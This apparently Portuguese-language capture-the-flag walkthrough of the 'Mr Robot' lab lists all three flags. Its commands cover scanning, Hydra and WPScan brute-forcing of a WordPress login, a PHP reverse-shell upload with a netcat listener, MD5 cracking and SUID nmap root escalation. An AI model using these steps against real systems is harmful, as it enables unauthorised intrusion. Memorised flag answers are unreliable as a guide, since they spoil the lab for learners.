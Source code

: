 # Lab: Mr Robot (Medium Mode)

## Capture The Flags (CTF):

1. **What is key 1?** `073403c8a58a1f80d943455fb30724b9`
2. **What is key 2?** `822c73956184f694993bede3eb39f959`
3. **What is key 3?** `04787ddef27c3dee1ee161b21670b4e4`

---

## 1) Reconhecimento Inicial
```
export IP=10.10.200.166
```
```
nmap -A $IP
```
**Resultados:**
```
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
```

---

## 2) Enumeração de Diretórios
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IP -x php,sh,txt,html,js,css,py
```
**Resultados Principais:**
- `/wp-login`  
- `/robots` → Contém `fsocity.dic` e `key-1-of-3.txt`
- `/key-1-of-3.txt` → FLAG: `073403c8a58a1f80d943455fb30724b9`

---

## 3) Análise de Wordlist
```bash
wc fsocity.dic  # Conta linhas/palavras/caracteres
```
```bash
ls -l  # Lista ficheiros e tamanhos
```
```bash
sort fsocity.dic | uniq > fsocityUniq.txt  # Ordena e remove duplicados
```

---

## 4) Ataque de Força Bruta (Burp Suite + Hydra)
```bash
wpscan --url 10.10.101.133 --enumerate u
```
**Resultados:**
Username: Not Found!

**Burp Suite**: Interceptar a requisição do wp-login.php (usado pelo hydra)
```bash
hydra -L fsocityUniq.txt -p admin 10.10.200.166 http-post-form "/wp-login.php:log=^USER^&pass=^PASS^&wp-submit=LOG+In&redirect_to=http%3aA%2F%2F10.10.200.166%2Fwp-admin%2F&testcookie=1:Invalid username" -F -V
```
**Resultados:** 
Username: `elliot`

```bash
wpscan --url 10.10.101.133 --passwords fsocityUniq.txt --usernames elliot
```
**Credenciais Encontradas:**
- Username: `elliot`
- Password: `ER28-0652`

---

## 5) Reverse Shell via Editor PHP
```bash
cd /usr/share/webshells/php
```
```
cat php-reverse-shell.php > php-reverseshell.php
```
**Passos:**
1. Fazer upload do `php-reverseshell.php` no editor WordPress.
2. Iniciar listener:
```bash
nc -lnvp 9999
```
3. Aceder ao URL do ficheiro: `http://10.10.101.133/wp-content/themes/twentyfifteen/archive.php`

---

## 6) Escalada para Utilizador "robot"
```bash
whoami
cd home
cd robot
ls -l
cat password.raw-md5
```
**MD5 Encontrado:** `robot:c3fcd3d76192e4007dfb496cca67e13b`
**MD5 Descriptografado:** `abcdefghijklmnopqrstuvwxyz`

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```
su robot
```
**Password:** `abcdefghijklmnopqrstuvwxyz`
```bash
cat key-2-of-3.txt
```
**FLAG:** `822c73956184f694993bede3eb39f959`

---

## 7) Escalada de Privilégios para Root
```bash
find / -user root -perm -4000 2>/dev/null  # Identificar SUID bins
```
```bash
nmap --interactive
!sh
```
**Resultados:**
```bash
whoami  # root
cd /root
ls -l
cat key-3-of-3.txt
```
**FLAG Final:** `04787ddef27c3dee1ee161b21670b4e4`
